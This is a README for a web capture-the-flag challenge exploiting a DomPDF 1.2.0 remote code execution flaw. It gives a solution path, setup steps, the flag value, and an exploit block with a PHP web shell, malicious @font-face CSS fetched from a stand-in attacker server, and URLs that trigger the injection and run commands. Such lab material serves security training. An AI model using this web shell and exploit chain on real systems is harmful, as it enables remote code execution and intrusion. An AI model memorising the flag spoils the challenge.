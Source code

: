 # Web8 - EduCard Pro Report Card Generator

## Challenge Description
Create Professional Digital Report Cards Instantly! Generate beautiful PDF report cards for your students with our new digital platform. Find the flag file in /flag.txt at the root of the filesystem.

## Challenge Details
- **Category**: Web
- **Difficulty**: Medium
- **Points**: 200
- **Flag**: `flag{a4d52beabcfdeb6ba79fc08709bb5508}`

## Vulnerability
This challenge exploits a DomPDF RCE vulnerability in version 1.2.0. The application allows users to create digital report cards and generates PDF reports using DomPDF with remote file inclusion enabled.

## Solution Path
1. Submit the form and notice the PDF generation
2. Intercept the PDF generation request in Burp (change filter to include binary)
3. Identify DomPDF version 1.2.0 in the PDF metadata
4. Research DomPDF RCE vulnerability
5. Create malicious CSS with @font-face to load remote PHP file
6. Host the malicious PHP file and CSS on attacker server
7. Inject the CSS via the student name parameter
8. Calculate MD5 hash of the PHP file URL
9. Access the uploaded PHP file at `/vendor/dompdf/dompdf/lib/fonts/`
10. Execute commands to read `/flag.txt`

## Setup Instructions
1. Run `chmod +x setup.sh && ./setup.sh`
2. Run `docker-compose up -d`
3. Access the challenge at `http://localhost:32110`

## Expected Exploit
```bash
# 1. Create malicious PHP file (evil.php)
<?php system($_REQUEST["cmd"]); ?>

# 2. Create malicious CSS (exploit.css)
@font-face {
    font-family: "evil";
    src: url("http://ATTACKER_SERVER/evil.php");
    font-weight: "normal";
    font-style: "normal";
}

# 3. Host files and get MD5
echo -n "http://ATTACKER_SERVER/evil.php" | md5sum

# 4. Trigger the exploit
http://localhost:32110/quote.php?organisation=<link rel=stylesheet href='http://ATTACKER_SERVER/exploit.css'>&email=school@example.com&small=85&medium=90&large=88

# 5. Access uploaded PHP file
http://localhost:32110/vendor/dompdf/dompdf/lib/fonts/evil_normal_[MD5_HASH].php?cmd=cat /flag.txt
```

## Files Structure
- `index.php` - Main report card generation form
- `quote.php` - PDF generation endpoint (vulnerable)
- `composer.json` - Dependencies (DomPDF 1.2.0)
- `Dockerfile` - Container setup
- `docker-compose.yml` - Service configuration
